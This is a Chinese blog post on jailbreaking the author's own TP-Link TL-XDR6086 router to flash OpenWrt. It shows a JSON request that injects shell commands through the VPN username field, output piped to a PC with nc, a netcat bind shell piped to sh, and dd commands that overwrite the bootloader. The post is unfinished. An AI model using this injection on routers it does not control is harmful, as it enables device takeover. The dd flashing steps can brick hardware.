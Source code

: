 ```yaml
---
title: 'TP-Link TL-XDR6086 刷机原理和教程'
description: '利用 L2TP 服务器删除时的 shell 注入漏洞刷 OpenWrt'
pubDate: 'Aug 29 2024'
heroImage: 'https://imagedelivery.net/6gszw1iux5BH0bnwjXECTQ/727ee92c-717e-4d32-b8f2-98b9865c8300/small'
---
```


为了满足：

1. 可以刷 OpenWrt
2. 内置天线，体积较小
3. 有 2.5 网口
4. CPU 够用

的需求，从 OpenWrt 支持设备列表中找到了 TP-Link TL-XDR6086，搞了一个，开始折腾。

恩山论坛上有挺多刷机教程，不过我最开始直接照着做发现基本上都不行，于是研究了一下原理，自己折腾。

基本上是抄的 [OpenWrt 教程](https://openwrt.org/toh/tp-link/xdr-6086)

## 常识科普

通常来说，路由器是不能刷机的。路由器的刷机类似于手机的 Root，都是利用系统漏洞获得本不应该获得的权限。

如果你按照这篇文章的方法一比一照做刷成砖了，和我没有半毛钱关系。 It works on my machine. （你猜为什么我博客没有留评论区。）

很多路由器厂商 ~甚至是 nas 厂商~ 的系统都是基于 OpenWrt 的，其中也包括 TP-Link 和小米，这也是为什么我们能知道什么命令在里面可以运行。

你**应该**在 [OpenWrt Wiki](https://openwrt.org/toh/tp-link/xdr-6086) 查找设备信息，**而不是**在百度、CSDN、恩山论坛或者什么其他地方。

你可以从 [OpenWrt 预编译的包](https://downloads.openwrt.org/releases/21.02-SNAPSHOT/packages/aarch64_cortex-a53/packages/) 中下载软件包，而不必在论坛或者 CSDN 里面找别人分享的傻逼百度盘链接。

刷机过程假设你用的是 Linux（或者 Mac），如果你用的是 Windows，爬。

## 漏洞原理

调用`http://192.168.1.1/stok=${STOK}/ds`的 API 创建 VPN 时，有一个地方可以注入 Shell 命令。

> 在进入管理页面之后，F12 查看 API 调用，从 url 里面截取出`${STOk}`

```json
{
    "vpn":{
        "table":"user",
        "para":{
            "username":"; 在这里注入命令&",
            "password":"password1",
            "type":"l2tp",
            "netmode":"client2lan",
            "localip":"192.168.2.1",
            "dns":"1.1.1.1",
            "block":"0",
            "ippool":"new",
            "maxsessions":"1"
        },
        "name":"user_1"
    },
    "method":"add"
}
```

> 举个例子，如果你想要注入`echo 'fuck you'`，`username`就是`;echo 'fuck you'&`

此时，命令录入了路由器的数据库，**当删除这个 VPN 用户时，命令执行**。

## 刷机过程

用 u 盘刷机方案。我不知道为什么简中社区流传很广的方案是用 tftp 去开 server 然后让路由器通过 tftp 去拉取。为此，Windows 用户甚至需要装一个 WSL，这实在是太傻逼了。

首先，[下载`netcat`](https://downloads.openwrt.org/releases/21.02-SNAPSHOT/packages/aarch64_cortex-a53/packages/)，然后放到 FAT32 文件系统的 u 盘里面。最好重命名成 netcat.ipk，方便输入命令。

### 挂载 u 盘和 shell 反射

首先，注入，创建文件夹

```sh
mkdir /tmp/usb
```

然后，在电脑那里，创建 netcat 监听

```sh
nc -l -p 4444
```

> netcat 是一个网络调试工具，也经常被用来做 shell 反射。
> 
> 在电脑上创建 netcat 监听，然后让路由器通过`nc`命令，向电脑的 netcat 发送命令输出，就能看到 webshell 命令执行的结果了。
>
> 如果路由器安装好了 netcat，也可以反过来，让路由器的 netcat 监听电脑的输入。通过`netcat`命令，将电脑发出的 shell 命令传递到`sh`，并将结果通过`nc`命令发送到电脑，实现 shell 反射。

之后，就能得到 shell 的输出了，例如注入这个可以显示有没有成功创建文件夹。其中`192.168.1.100`应该是你的电脑的 ip 地址。

```sh
ls -la /tmp | nc 192.168.1.100 4444
```

如果成功创建文件夹，则注入以下命令挂载 U 盘。注意，如果你拔出过 u 盘然后再插入，会变成`sda2`,`sda3`每次递增，重启后恢复`sda1`。

```sh
mount -t vfat /dev/sda1 /tmp/usb
```

> 如果你不知道 u 盘究竟是什么设备名，可以注入`ls /dev | nc 192.168.1.100 4444`看看

然后，注入这个命令查看是否挂载成功。

```sh
ls -la /tmp/usb | nc 192.168.1.100 4444
```

如果挂载成功，就安装

```sh
opkg install /tmp/usb/netcat.ipk
```

完成安装 netcat 之后，就可以通过 `netcat` 创建反向 shell 了，可以通过电脑的`nc`直接传输命令，不需要注入。

```sh
netcat -lp 4444 | sh
```

### 备份

在路由器端执行

```sh
dd if=/dev/mtdblock9 of=/tmp/usb/backup.img bs=131072
```

### 刷入 U-Boot

**危险操作，请务必确定意识清醒！**

根据 [GitHub 上的讨论](https://github.com/hanwckf/immortalwrt-mt798x/issues/207)，u-boot 可以通过 [bl-mt98x 源码](https://github.com/hanwckf/bl-mt798x) 编译或者下载别人编译好的。

**依次**在路由器上执行以下两个命令，务必确保第一个成功之后再执行第二个。文件名可能有出入，但一定是先 bl2 再 fip.

```sh
dd bs=131072 conv=sync of=/dev/mtdblock9 if=/tmp/usb/xdr608x-bl2.bin
dd bs=131072 conv=sync of=/dev/mtdblock9 seek=28 if=/tmp/usb/xdr608x-fip.bin
```

> 提示：可以通过重定向配合管道运算符输出错误（`2>&1 |`）

设置电脑 ip 地址为静态的 192.168.1/24，网关为 198.168.1.1

断电路由器，然后通电，如果正常，则红灯闪烁，进去<http://192.168.1.1>可以看到 u-boot 界面。

![u-boot 界面](https://imagedelivery.net/6gszw1iux5BH0bnwjXECTQ/5d6eb200-ac42-4b02-c09b-f689ec194d00/public)

### 安装 OpenWrt

目前还没装上，稍后更新